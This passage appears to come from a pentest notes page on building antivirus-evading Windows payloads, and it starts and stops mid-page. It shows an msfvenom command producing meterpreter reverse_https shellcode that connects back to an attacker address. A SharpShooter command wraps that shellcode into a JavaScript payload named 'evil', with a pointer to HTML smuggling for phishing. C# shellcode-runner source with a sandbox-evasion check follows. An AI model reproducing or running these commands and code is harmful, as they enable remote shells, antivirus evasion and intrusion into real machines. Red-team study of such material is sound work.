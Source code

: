 Compile to Jscript with *DotNetToJScript.exe*:

```
Cmd > .\DotNetToJScript.exe .\ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js
```


#### SharpShooter

* [https://github.com/mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 -f raw -o met.bin
$ python SharpShooter.py --dotnetver 4 --stageless --rawscfile met.bin --payload js --output evil
```

{% hint style="info" %}
This tool can efficiently be used with [HTML Smuggling](pentest/se/phishing/html-smuggling.md) technique.
{% endhint %}



### C\# DLL with PowerShell Cradle (in Memory)

* [https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html](https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html)
* [https://github.com/smokeme/payloadGenerator](https://github.com/smokeme/payloadGenerator)

{% code title="ShellcodeRunner.cs" %}
```csharp
using System;
using System.Runtime.InteropServices;

namespace ShellcodeRunner
{
    public class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        public static void Run()
        {
            // Check if we're in a sandbox by calling a rare-emulated API
            if (VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0) == IntPtr.Zero)
            {
                return;
            }
```